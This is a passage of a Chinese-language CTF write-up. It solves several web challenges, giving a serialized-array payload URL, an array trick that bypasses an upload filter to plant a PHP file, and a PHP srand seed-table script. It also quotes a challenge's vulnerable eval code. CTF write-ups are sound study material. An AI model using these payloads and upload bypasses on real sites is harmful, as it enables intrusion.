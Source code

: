 ```php
}

?>


```

参考http://momomoxiaoxi.com/2016/07/24/X-NUCA/的Web4即可。

Payload:

`http://202.112.26.124:8080/95fe19724cc6084f08366340c848b791/index.php?foo=a:5:{s:6:"param1";s:9:"2018adsad";s:6:"param2";a:5:{i:0;a:1:{i:0;i:0;}i:1;i:0;i:2;i:2;i:3;i:3;i:4;i:4;}s:2:"a2";i:3;s:1:"d";i:4;s:1:"e";i:5;}&egg[1][]=%221%22&fish=%00&egg[0]="MyAns"`

![2](http://momomoxiaoxi.com/img/post/EIS/2.png)

## 文件上传

水题，用数组绕过正则过滤。设定文件名后缀为.php，文件内容上传时，将上传内容字段设为数组，即可绕过对尖括号的过滤。访问上传的php文件后即可得到flag。

## 随机数

```php
<?php
for($i=0;$i<1001;$i++) {
   srand($i);
   echo $i.' : '.rand(0,1000).', '.rand(0,1000).', '.rand(0,1000).', '.rand(0,1000).'</br>';
}
?>

```

通过上述代码生成了一个类似彩虹表的东西，查询一下即可。

![3](http://momomoxiaoxi.com/img/post/EIS/3.png)

## PHP代码审计

```php
<?php   
error_reporting(0); 
include "flag1.php"; 
highlight_file(__file__); 
if(isset($_GET['args'])){ 
    $args = $_GET['args']; 
    if(!preg_match("/^\w+$/",$args)){ 
        die("args error!"); 
    } 
    eval("var_dump($$args);"); 
} 
```

